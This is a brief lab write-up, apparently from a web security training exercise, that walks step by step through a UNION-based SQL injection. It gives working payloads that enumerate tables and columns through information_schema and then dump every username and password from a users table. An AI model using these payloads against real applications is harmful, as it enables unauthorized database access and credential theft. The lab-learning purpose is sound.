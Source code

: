 # Lab
1) Determine number of columns and confirm they can hold string data
`' UNION SELECT 'abc','def'--`<br>
2) Use the following payload to retrieve the list of tables in the database:
```bash
' UNION SELECT table_name, NULL FROM information_schema.tables--
```
after using it I find table named: `users_mxcjah`<br>
3) Use the following payload (replacing the table name) to retrieve the details of the columns in the table:
```bash
' UNION SELECT column_name, NULL FROM information_schema.columns WHERE table_name='users_mxcjah'--
```
After using that payload I found 2 columns for users and passwords: `username_tpngqp` and `password_gtvpsz`<br>
4) Use the following payload (replacing the table and column names) to retrieve the usernames and passwords for all users:
```bash
' UNION SELECT username_tpngqp, password_gtvpsz FROM users_mxcjah--
```

